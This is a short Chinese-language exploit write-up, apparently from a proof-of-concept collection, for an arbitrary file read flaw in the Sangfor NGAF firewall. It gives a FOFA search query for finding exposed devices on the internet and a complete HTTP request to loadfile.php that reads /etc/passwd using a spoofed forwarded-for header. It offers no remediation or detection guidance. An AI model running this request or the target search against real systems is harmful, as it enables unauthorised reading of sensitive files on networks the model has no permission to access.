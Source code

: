 # 深信服下一代防火墙NGAF loadfile存在任意文件读取漏洞

# 一、漏洞简介
深信服下一代防火墙NGAF专注网络边界安全效果，通过应用丰富的安全创新防御技术和简单易用的产品设计理念，不仅增强网络边界的安全检测与防控能力，而且实现网络安全风险可视化展示与快速处置，让组织网络边界安全建设更有效、更简单。该系统存在任意文件读取漏洞，会造成敏感信息泄露。

# 二、影响版本
+ 深信服下一代防火墙NGAF

# 三、资产测绘
+ fofa`title="SANGFOR | NGAF"`
+ 特征

![1713458847916-2fa4ae06-c1c9-46aa-a7d9-4a41a36c3b74.png](./img/kJMEluyAHaF5_DOx/1713458847916-2fa4ae06-c1c9-46aa-a7d9-4a41a36c3b74-683282.png)

# 四、漏洞复现
```plain
GET /svpn_html/loadfile.php?file=/etc/./passwd HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded
y-forwarded-for: 127.0.0.1
```

![1713458879412-36bd7456-0731-4750-96b3-4ea1f5663bbb.png](./img/kJMEluyAHaF5_DOx/1713458879412-36bd7456-0731-4750-96b3-4ea1f5663bbb-103266.png)



> 更新: 2024-04-19 08:49:27  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/xem61o3tiw39r3cr>